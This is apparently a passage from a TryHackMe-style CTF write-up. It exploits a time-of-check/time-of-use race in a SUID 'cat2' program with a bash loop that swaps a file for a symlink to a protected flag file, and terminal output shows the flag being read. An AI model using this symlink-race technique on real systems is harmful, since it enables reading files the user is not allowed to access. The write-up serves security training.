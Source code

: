 #### `loop.sh`

This script is responsible for creating, deleting, and relinking files to exploit the timing window provided by the race condition.

```bash
#!/bin/bash
max_attempts=1
delay_between_attempts=0

attempt=1
while [ "$attempt" -le "$max_attempts" ]; do
    rm -f "/home/race/asdf"
    echo asdf > "/home/race/asdf"
    sleep $delay_between_attempts
    rm -f "/home/race/asdf"
    ln -s "/home/run/flag" "/home/race/asdf"
    echo 'Link happening now'
    ((attempt++))
done

echo "Script completed after $max_attempts attempts."
```

### Execution & Result

To exploit the vulnerability, both `execute_program.sh` and `loop.sh` are run in parallel. As `execute_program.sh` constantly attempts to access the `/home/race/asdf` file, `loop.sh` works in the background to swap this file with a symbolic link to `/home/run/flag`. When the timing aligns perfectly, `cat2` ends up reading the contents of `flag` instead of `asdf`, thereby successfully exploiting the race condition.

```bash
race@car:~$ ./loop.sh & ./execute_program.sh  &
...
[SECURITY BREACH] The user does not have access to this file!
Terminating...
This program is a side project I've been working on to be a more secure version of the popular cat command
Unlike cat, the cat2 command performs additional checks on the user's security context
This allows the command to be security compliant even if executed with SUID permissions!

Checking the user's security context...
Context has been checked, proceeding!

[SECURITY BREACH] The user does not have access to this file!
Terminating...
Context has been checked, proceeding!

[SECURITY BREACH] The user does not have access to this file!
Terminating...
THM{R4c1n6_f4573r_7h4n_y0ur_53cur17y_ch3ck5}
THM{R4c1n6_f4573r_7h4n_y0ur_53cur17y_ch3ck5}
```
